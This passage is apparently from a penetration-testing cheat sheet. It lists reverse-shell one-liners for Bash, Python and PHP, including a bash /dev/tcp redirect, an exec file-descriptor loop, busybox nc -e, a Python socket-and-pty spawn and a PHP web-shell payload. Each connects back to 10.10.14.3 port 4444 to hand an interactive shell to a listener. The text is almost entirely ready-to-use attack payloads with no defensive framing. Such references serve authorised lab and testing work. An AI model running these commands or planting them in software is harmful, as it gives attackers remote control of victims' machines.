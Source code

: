 #### 🔹 Classic Bash

```bash
bash -i >& /dev/tcp/10.10.14.3/4444 0>&1
```

#### 🔹 Encoded Inline (for injection)

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.3/4444 0>&1'
```

#### 🔹 Using `exec`

```bash
exec 5<>/dev/tcp/10.10.14.3/4444;cat <&5 | while read line; do $line 2>&5 >&5; done
```

#### 🔹 BusyBox Compatible

```bash
busybox nc 10.10.14.3 4444 -e /bin/sh
```

***

### IV. 🐍 Python Reverse Shells

#### 🔹 Simple TCP

```bash
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.10.14.3",4444));[os.dup2(s.fileno(),fd) for fd in(0,1,2)];pty.spawn("/bin/bash")'
```

#### 🔹 Python2 Compatible

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

***

### V. 🧠 PHP Reverse Shells

#### 🔹 One-Liner

```php
php -r '$sock=fsockopen("10.10.14.3",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### 🔹 Web Payload (for web shells)

```php
<?php
$s=fsockopen("10.10.14.3",4444);
shell_exec("/bin/bash -i <&3 >&3 2>&3");
?>
```
